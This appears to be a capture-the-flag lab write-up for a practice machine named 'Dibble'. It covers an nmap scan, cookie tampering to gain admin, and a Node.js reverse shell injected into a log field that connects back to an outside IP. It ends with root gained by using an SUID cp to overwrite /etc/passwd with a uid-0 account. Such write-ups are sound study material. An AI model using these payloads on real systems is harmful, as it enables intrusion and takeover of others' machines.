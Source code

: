 # Dibble

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 3000 -Pn 192.168.157.110
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-16 12:24 +08
Nmap scan report for 192.168.157.110
Host is up (0.17s latency).
Not shown: 65530 filtered tcp ports (no-response)
PORT      STATE SERVICE
21/tcp    open  ftp
22/tcp    open  ssh
80/tcp    open  http
3000/tcp  open  ppp
27017/tcp open  mongod
```

FTP accepts anonymous logins but there's nothing within it.&#x20;

### Web Enum --> Admin Takeover

Port 80 shows a blog about some web exploits:

<figure><img src="../../../.gitbook/assets/image (13) (1) (1).png" alt=""><figcaption></figcaption></figure>

Port 3000 shows a more dynamic incident reporting site:

<figure><img src="../../../.gitbook/assets/image (31) (2).png" alt=""><figcaption></figcaption></figure>

I registed a new account and looked at the events:

<figure><img src="../../../.gitbook/assets/image (23) (3).png" alt=""><figcaption></figcaption></figure>

Doesn't look super relevant. I checked Burpsuite, and noticed this cookie:

<figure><img src="../../../.gitbook/assets/image (21) (1).png" alt=""><figcaption></figcaption></figure>

When decoded, it gives `default`. I changed it to a `base64` encoded `admin` string, giving `YWRtaW4=`, which allows us to create logs.

### RCE

The new log event specified that we can write code in it:

<figure><img src="../../../.gitbook/assets/image (113).png" alt=""><figcaption></figcaption></figure>

The `X-Powered-By` header specified that this was using Express, which is Javascript. Since we can directly write code, I tried putting in a Node.js reverse shell:

```javascript
(function(){
    var net = require("net"),
        cp = require("child_process"),
        sh = cp.spawn("bash", []);
    var client = new net.Socket();
    client.connect(21, "192.168.45.196", function(){
        client.pipe(sh.stdin);
        sh.stdout.pipe(client);
        sh.stderr.pipe(client);
    });
    return /a/; // Prevents the Node.js application from crashing
})();
```

When we submit thiss, we get a reverse shell:

<figure><img src="../../../.gitbook/assets/image (12) (14).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### cp SUID --> Root

`cp` is an SUID binary on this machine:

```
[benjamin@dibble ~]$ find / -perm -u=s -type f 2>/dev/null
/usr/bin/cp
```

We can use this to overwrite files, just add this line into a copy of the current `/etc/passwd`:

```
hacker:$1$ZNhJDyK2$vksoiVz4W8rhrWm8BKxWK/:0:0::/root:/bin/bash
```

Then, use `cp` to overwrite the existing `/etc/passwd` file and `su` to `hacker` with 'hello123':

<figure><img src="../../../.gitbook/assets/image (48) (9).png" alt=""><figcaption></figcaption></figure>
